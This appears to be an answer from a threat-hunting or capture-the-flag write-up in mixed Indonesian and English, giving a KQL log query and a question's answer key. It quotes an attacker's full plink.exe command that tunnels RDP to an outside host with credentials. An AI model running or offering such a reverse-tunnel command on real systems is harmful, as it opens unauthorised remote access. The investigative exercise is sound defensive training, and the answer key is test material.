

# Q21

**Pertanyaan:** What IP address is used when plink is executed?

**Konteks:**
Cek `ProcessEvents` buat bukti `plink.exe` dijalankan di mesin Sonia.

**Cara penyelesaian:**
```kql
ProcessEvents
| where hostname == "UL0M-MACHINE"
| where timestamp >= todatetime("2024-01-05 10:24:32+00:00")
```


Command lengkapnya: `plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 136.130.190.181`

⚠️ IP attacker di sini (`136.130.190.181`) beda sama IP attacker di Section 1 (`193.224.154.119`) — kemungkinan infrastruktur/proxy yang beda dipakai tiap target, meski pola serangannya (nama file, scheduled task, plink reverse tunnel) identik.

**Jawaban:** 136.130.190.181
